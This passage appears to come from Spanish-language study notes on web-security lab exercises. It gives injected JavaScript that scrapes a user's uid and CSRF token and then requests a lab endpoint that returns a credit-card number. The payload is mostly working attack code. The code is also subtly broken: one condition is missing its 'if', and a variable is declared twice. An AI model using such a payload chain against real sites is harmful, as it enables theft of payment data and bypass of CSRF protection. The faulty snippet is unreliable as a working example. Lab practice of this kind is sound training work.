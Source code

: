 ```html
    req.responseType = "document";
    req.send();    
    </script>
```

### MULTI LEVEL HTML PARSING

vamos a realizar una peticion y queremos que la respuesta nos la devuelva en formato HTML, para a partir de esa respuesta obtener un valor:

```html
<script>
        let xhr = new XMLHttpRequest();
        let xhr2 = new XMLHttpRequest();

        let csrf_token = '';
        let uid = '';  

        xhr2.onreadystatechange = function() {
             (xhr2.readyState == 4 && xhr2.status == 200) {
                let html = xhr2.responseXML;
                //obtengo la tarjeta de credito
                credit = html.getElementById("result").innerHTML;
                console.log(credit);
                //lo muestro en el HTML
                document.getElementById("result").innerHTML = credit;
            }
        }

        xhr.onreadystatechange = function() {
            if (xhr.readyState == 4 && xhr.status == 200) {
                let html2 = xhr.responseXML;
                //de la respuesta obtengo el token
                csrf_token = html2.forms[0].elements[1].value;
                alert(csrf_token);
                //mando otra peticion con el uid y el token obtenido
                xhr2.open("GET", "/lab/webapp/jfp/19/getcreditcard?uid=" + uid + "&csrf_token=" + csrf_token, true);
                xhr2.responseType = "document";
                xhr2.send();
            }
        }
        //obtengo el link
        let link = document.getElementById("settings");
        //del link filtro el uid
        let uid = link.innerHTML.split(":")[1];

        xhr.open("GET", link.href, true);
        //especifico que la respuesta sea HTML
        xhr.responseType = "document";
        xhr.send();
</script>
```
